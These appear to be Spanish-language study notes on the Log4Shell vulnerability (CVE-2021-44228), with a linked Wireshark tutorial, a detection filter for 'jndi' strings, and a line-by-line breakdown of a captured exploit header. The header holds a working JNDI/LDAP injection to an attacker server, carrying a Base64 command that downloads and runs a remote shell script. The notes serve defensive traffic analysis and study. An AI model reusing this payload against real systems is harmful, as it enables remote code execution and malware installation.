

## Analyzing a Log4j Exploit with Wireshark (and how to filter for it) // Sample PCAP! BY Chris Greer
https://www.youtube.com/watch?v=O7VWtFtDvRg

## Ejemplo de Log4j en Wireshark
- Wireshark Room: Traffic Analysis -->http.cap
- Fichero que se adjunta en el vídeo de youtube.

# Log4Shell - Log4j
El ataque que explota la vulnerabilidad Log4j, conocido como "Log4Shell", es un tipo de vulnerabilidad de ejecución remota de código (RCE, Remote Code Execution). Esta vulnerabilidad se encuentra en la biblioteca de registro Log4j de Apache, que es ampliamente utilizada en aplicaciones Java.

La vulnerabilidad Log4Shell permite a un atacante remoto ejecutar código arbitrario en el servidor afectado simplemente enviando cadenas de texto especialmente diseñadas que son procesadas por Log4j. Estas cadenas maliciosas suelen ser enviadas a través de entradas de usuario que pueden ser registradas por Log4j, como cabeceras HTTP, mensajes de correo electrónico, o entradas de formularios web. Cuando Log4j procesa una cadena que incluye una referencia JNDI maliciosa a un servidor LDAP controlado por el atacante, el servidor vulnerable puede ejecutar código Java arbitrario suministrado por el atacante.

La gravedad de esta vulnerabilidad radica en la capacidad de los atacantes para ejecutar código de manera remota sin autenticación previa, lo que les permite tomar control total de los sistemas afectados, acceder a datos sensibles, instalar malware, y propagar el ataque dentro de redes corporativas.

La vulnerabilidad Log4Shell fue asignada con el identificador **CVE-2021-44228 y se considera crítica**. Su descubrimiento a finales de 2021 llevó a una respuesta urgente de la comunidad de ciberseguridad, con actualizaciones y parches emitidos rápidamente para mitigar el riesgo de explotación.


La vulnerabilidad de Log4j, se ajusta perfectamente a la **categoría A06:2021 - Componentes Vulnerables y Desactualizados del OWASP Top Ten 2021**. Esta categoría se centra en los riesgos asociados con el uso de componentes de software con conocidas vulnerabilidades de seguridad sin las debidas actualizaciones o parches. En el caso de Log4j, la biblioteca afectada por esta vulnerabilidad crítica es un componente de software ampliamente utilizado en aplicaciones Java para el registro de actividades.

El riesgo de utilizar componentes vulnerables y desactualizados como Log4j sin aplicar los parches de seguridad necesarios es significativo, ya que permite a los atacantes explotar estas vulnerabilidades para realizar ataques de ejecución remota de código, entre otros. Esto subraya la importancia de mantener todos los componentes de software actualizados y aplicar las mejores prácticas de gestión de dependencias y parches de seguridad recomendadas por OWASP y otros organismos de seguridad cibernética.


## Filtro wireshark
```
ip contains jndi
```
El filtro de Wireshark ip contains jndi se utiliza para buscar paquetes cuyo contenido en el nivel IP (Protocolo de Internet) incluye la secuencia de caracteres "jndi". Este tipo de filtro es útil para identificar intentos de explotación o actividad maliciosa relacionada con vulnerabilidades específicas que involucran a JNDI (Java Naming and Directory Interface).

En el contexto de la seguridad informática, "jndi" se ha vuelto particularmente relevante debido a vulnerabilidades como Log4Shell (CVE-2021-44228) en la biblioteca Log4j de Apache, donde un atacante puede inyectar referencias JNDI maliciosas en los registros para ejecutar código arbitrario de forma remota.

Utilizar ip contains jndi como filtro en Wireshark permite detectar paquetes que podrían estar intentando explotar esta clase de vulnerabilidades, mostrando cualquier paquete IP que contenga la cadena "jndi". Sin embargo, es importante tener en cuenta que este filtro podría no ser completamente efectivo para detectar todos los intentos de explotación relacionados con JNDI, ya que los ataques pueden emplear técnicas de ofuscación o codificación que no resultarían en una coincidencia directa con la cadena "jndi" en el nivel IP.

Este filtro sólo funcionará en un ataque al puerto 80 or open web. Pero no funcionará si se ataca el puerto 443 o una conexión TLS, ya que no podemos ver el texto en claro.


## Ejemplo de captura del tráfico de un ataque Log4j
```
User-Agent: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}\r\n

- User-Agent: Este es el campo del encabezado HTTP que normalmente indica qué navegador o cliente HTTP está haciendo la solicitud.
- ${jndi:ldap://...}: Esta es la parte crítica que explota la vulnerabilidad Log4Shell (CVE-2021-44228) en Log4j. Permite la ejecución remota de código a través de la inyección de una cadena maliciosa.
  - jndi: Java Naming and Directory Interface, una API de Java para servicios de directorio que permite a las aplicaciones Java descubrir y obtener datos o recursos usando un nombre.
  - ldap: Lightweight Directory Access Protocol, un protocolo para acceder y mantener servicios de directorio distribuidos.
  
- ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Esta URL LDAP apunta a un servidor controlado por el atacante (45.137.21.9 en el puerto 1389). El path que sigue especifica un comando codificado en Base64 que el servidor vulnerable intentará ejecutar.

- d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==: Este es el comando codificado en Base64. Decodificado, se traduce a una secuencia de comandos shell que realiza lo siguiente:
  - Descarga un script (probablemente malicioso) de http://62.210.130.250/lh.sh.
  - Cambia los permisos del script descargado para hacerlo ejecutable (chmod +x lh.sh).
  - Ejecuta el script descargado (./lh.sh).
```


### Analizamos la web que nos aparece con Virustotal
IP: 62.210.130.250



